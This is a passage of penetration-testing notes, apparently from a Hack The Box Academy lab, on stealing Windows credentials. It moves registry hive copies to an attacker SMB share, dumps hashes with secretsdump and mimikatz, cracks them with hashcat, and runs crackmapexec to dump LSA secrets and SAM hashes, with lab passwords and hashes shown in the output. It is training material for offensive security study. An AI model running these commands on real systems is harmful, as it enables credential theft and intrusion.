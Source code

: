 ```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

3) **Dumping Hashes with Impacket's secretsdump.py**


```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

4) **mimikatz**
```
./mimikatz.exe "privilege::debug" "lsadump::sam /patch"


```

5) **Cracking Hashes with Hashcat**

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```


### Dumping LSA Secrets Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa

SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] Dumping LSA secrets
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] Dumped 3 LSA secrets to /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets and /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached
```

### Dumping SAM Remotely

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam

SMB         10.129.42.198   445    WS01      [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:WS01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01      [+] FRONTDESK01\bob:HTB_@cademy_stdnt! (Pwn3d!)
SMB         10.129.42.198   445    WS01      [+] Dumping SAM hashes
SMB         10.129.42.198   445    WS01      Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.42.198   445    WS01     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::
```